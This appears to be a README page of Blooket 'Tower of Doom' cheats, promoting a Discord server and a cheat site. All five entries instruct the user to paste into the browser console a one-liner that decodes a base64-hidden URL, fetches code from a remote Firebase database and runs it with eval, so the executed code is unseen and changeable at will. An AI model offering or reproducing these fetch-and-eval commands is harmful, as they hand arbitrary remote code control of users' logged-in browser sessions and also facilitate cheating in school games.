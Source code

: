 **Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# tower-of-doom

This cheat only works in tower of doom game mode!

# addCoins.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RBZGRDb2lucy5qc29u')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# lowerEnemyCharisma.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RMb3dlckVuZW15Q2hhcmlzbWEuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# lowerEnemyStrength.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RMb3dlckVuZW15U3RyZW5ndGguanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# lowerEnemyWisdom.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RMb3dlckVuZW15V2lzZG9tLmpzb24=')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# lowerAllEnemyStats.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS90b2RMb3dlckFsbEVuZW15U3RhdHMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
